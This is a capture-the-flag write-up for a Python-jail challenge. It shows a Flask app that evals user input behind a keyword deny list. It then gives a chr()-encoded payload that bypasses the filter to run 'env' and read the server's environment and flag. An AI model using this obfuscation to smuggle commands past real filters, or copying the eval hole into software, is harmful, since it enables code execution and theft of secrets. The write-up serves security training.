 
<h1>Break the system, Destroy it</h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture13.PNG>

In this challenge we got a pyjail to break.It has this source code:
```py
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re

app = Flask(__name__)


def filter(command):
    blacklist = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    blacklist.extend([" ", ".", "(", ")", "+"])

    if re.search(
        "(system)|(curl)|(flag)|(subprocess)|(popen)|(import)|(global)|(class)",
        command,
        re.I,
    ):
        return True
    for c in command:
        if c not in blacklist:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        command = request.form.get("command", "")
        if command != "":
            if filter(command):
                return "You can't break reality without a command"
            else:
                try:
                    command = eval(command)
                    return str(command)
                except subprocess.CalledProcessError:
                    return "Error"
                except:
                    return "Error"
        else:
            return render_template("index.html")


app.run(host="0.0.0.0", port=8000)
```


i tried alot of methods but this method worked well for me:
```py
a="__import__('os').popen('env').read()"
l=[]
for i in a:
    l.append(f"+chr({ord(i)})")

for i in l:
    print(i,end='')
```

and we found the flag in the user enviroment:
```
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(101)+chr(110)+chr(118)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```

Flag: ```securinets{pwn_7h3_w0rld}```
